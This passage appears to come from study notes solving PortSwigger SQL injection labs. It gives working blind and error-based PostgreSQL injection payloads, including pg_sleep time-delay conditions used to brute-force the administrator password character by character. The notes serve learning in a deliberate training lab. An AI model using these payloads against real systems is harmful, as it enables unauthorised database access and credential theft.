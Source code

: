 > To determine the *administrator* in the first row, we can check it through payload as *' AND 1>CAST((SELECT username FROM users LIMIT 1) AS int)--*,
the error is *ERROR: invalid input syntax for type integer: "administrator"*.

### Exploiting blind SQL injection by triggering time delays

> Note: The same as between *Exploiting blind SQL injection by triggering time delays* and *Exploiting blind SQL injection by triggering conditional errors* is using conditions to observe the result returned by the database. The difference is *Exploiting blind SQL injection by triggering time delays* using condition to check time delays if it is a true condition. Otherwise,  *Exploiting blind SQL injection by triggering conditional errors* using condition to check whether the condition is true or false; if true, no result is returned.

#### Lab: Blind SQL injection with time delays

##### source: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays>

* To solve the lab, exploit the SQL injection vulnerability to cause a 10 second delay.

Solution:

we have payload as `**'||(SELECT pg_sleep(10))--**` because database is *PostgreSQL*

#### Lab: Blind SQL injection with time delays and information retrieval

##### source: <https://portswigger.net/web-security/sql-injection/blind/lab-time-delays-info-retrieval>

* To solve the lab, log in as the administrator user.

Solution:
> %3b equals *;*

We have the payload as `**'%3b+SELECT+CASE+WHEN(1=1)+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END--**` to check whether the injected query is true or false.

> We can check the length of the password with the payload as `**'%3b+SELECT+CASE+WHEN+LENGTH(password)=§§+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END FROM users WHERE username='administrator'--**`.

Continues, we have payload as `**'%3b+SELECT+CASE+WHEN+SUBSTRING(password,§§,1)='§§'+THEN+pg_sleep(10)+ELSE+pg_sleep(0)+END FROM users WHERE username='administrator'--**`. The payload for each position is as shown in the above lab. Now we only use brute force and wait for the result.

> I think we can't use *AND* because pg_sleep(10) is more like a command than a clause.

The result is *3pu6u5vh21uyekk44eib*

### Exploiting blind SQL injection using out-of-band (OAST) techniques

## SQL injection in different contexts

### Lab: SQL injection with filter bypass via XML encoding
